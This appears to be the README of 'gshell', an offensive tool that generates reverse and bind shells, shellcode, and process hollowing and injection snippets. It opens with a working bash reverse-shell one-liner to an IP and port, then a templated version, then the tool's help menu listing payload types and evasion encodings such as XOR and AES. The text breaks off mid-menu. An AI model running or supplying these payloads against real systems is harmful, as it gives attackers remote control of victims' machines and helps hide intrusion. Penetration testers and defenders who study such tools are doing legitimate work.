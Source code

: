 Here is a reverse shell example command:

```bash
bash -i >& /dev/tcp/192.168.10.11/433 0>&1
```

To add another shell simply replace the IP address and the port placeholders or variables values with these placeholders in your code or command:

- `$ip`: IP address
- `$port`: Port number

Here is an example:

```
bash -i >& /dev/tcp/$ip/$port 0>&1
```

> Note: It also offers advice and tips for performing and troubleshooting attacks.

# Overview

This is the help menu:

```powershell
PS C:\gshell> python .\gshell.py
usage: gshell.py [-i <IP ADDRESS>] [-p <PORT NUMBER>] [-s <SHELL TYPE>] [-r] [-b] [--hollowing] [--injector] [--shellcode] [--srev] [--sbind] [--windows] [--linux] [--base64] [--base32]
                 [--base16] [--url] [--obfuscate] [--xor] [--aes] [--des] [--tdes] [--rc2] [--no-block] [--list] [--advice] [-h]

 ██████  ███████ ██   ██ ███████ ██      ██      
██       ██      ██   ██ ██      ██      ██      
██   ███ ███████ ███████ █████   ██      ██      
██    ██      ██ ██   ██ ██      ██      ██      
 ██████  ███████ ██   ██ ███████ ███████ ███████ 

Generate shellcodes, bind shells and/or reverse shells with style

            Version: 1.3.1 dev
            Author: nozerobit
            Twitter: @nozerobit

Options:
  -i <IP ADDRESS>, --ip <IP ADDRESS>
                        Specify the IP address
  -p <PORT NUMBER>, --port <PORT NUMBER>
                        Specify the port number
  -s <SHELL TYPE>, --shell <SHELL TYPE>
                        Specify a shell type (python, nc, bash, etc)

Payload Types:
  -r, --reverse         Victim communicates back to the attacking machine
  -b, --bind            Open up a listener on the victim machine

Snippets Types:
  --hollowing           Print process hollowing code snippets
  --injector            Print process injector code snippets

Shellcode Types:
  --shellcode           Generate shellcodes, requires --srev or --sbind and --windows or --linux
  --srev                Reverse shell shellcode
  --sbind               Bind shell shellcode
  --windows             Windows shellcode
  --linux               Linux shellcode

Encoding Options:
```